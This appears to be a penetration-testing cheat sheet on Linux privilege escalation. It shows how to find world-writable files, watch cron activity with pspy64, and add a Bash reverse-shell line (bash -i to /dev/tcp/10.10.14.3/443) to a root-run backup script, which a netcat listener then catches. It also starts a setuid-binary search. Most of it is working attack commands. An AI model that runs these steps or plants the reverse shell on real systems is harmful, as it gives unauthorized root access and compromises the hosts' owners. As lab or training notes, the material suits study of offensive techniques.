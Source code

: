
## Cron Job Abuse

#### Search for writeable files or directories
```Shell
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
In the example, a quick look in the `/dmz-backups` directory shows what appears to be files created every three minutes

#### Examine the `/dmz/backups` directory
```Shell
ls -la /dmz-backups/
```

#### Run `pspy64` to view running processes without the need for root privileges
```Shell
./pspy64 -pf -i 1000
```
From the example provided, we can see that a cron job runs the `backup.sh` script located in the `/dmz-backups` directory and creating a tarball file of the contents of the `/var/www/html` directory

#### Look at the shell script and append a command to it to attempt to obtain a reverse shell as root
```Shell
cat /dmz-backups/backup.sh 
```

#### Modify the script to add a Bash one-liner reverse shell
```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

#### Save the script, stand up a local netcat listener, and wait
```Shell
nc -lnvp 443
```


## Special Permissions

#### Setuid Bit
```Shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
The `Set User ID upon Execution` (`setuid`) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The `setuid` bit appears as an `s`.
